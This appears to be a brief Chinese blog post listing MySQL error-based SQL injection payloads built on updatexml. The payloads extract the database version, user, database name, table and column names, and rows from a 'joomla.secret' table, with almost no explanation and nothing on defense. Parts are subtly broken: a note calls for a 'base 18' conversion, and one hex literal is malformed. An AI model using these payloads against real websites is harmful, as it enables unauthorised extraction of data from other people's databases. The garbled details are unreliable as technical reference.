 ```yaml
---
title: '通过updatexml进行sql报错注入'
date: 2020-06-22T22:37:40.000Z
tags: 网络安全
---
```


#### 1.爆数据库版本信息

```shell
updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```

#### 2.链接用户

```shell
updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)
```

#### 3.链接数据库

```shell
updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)
```

#### 4.暴露数据表名称

```shell
updatexml(2,concat(0x3a,(SELECT(HEX(TABLE_NAME))FROM(information_schema.tables) LIMIT 0,1),0x3a),1)

表名称返回的是16进制，需要转一下。
```

#### 5.暴露数据表的列名称

```shell
updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name=66333261685F6D656E755F747970657 limit 0,1)),0)

表名称需要换成18进制。
```

#### 6.查数据

```shell
updatexml(1,concat(0x3e,(select concat(id) from joomla.secret limit 0,1)),0)

根据数据库名称和表名称查询数据库。
```

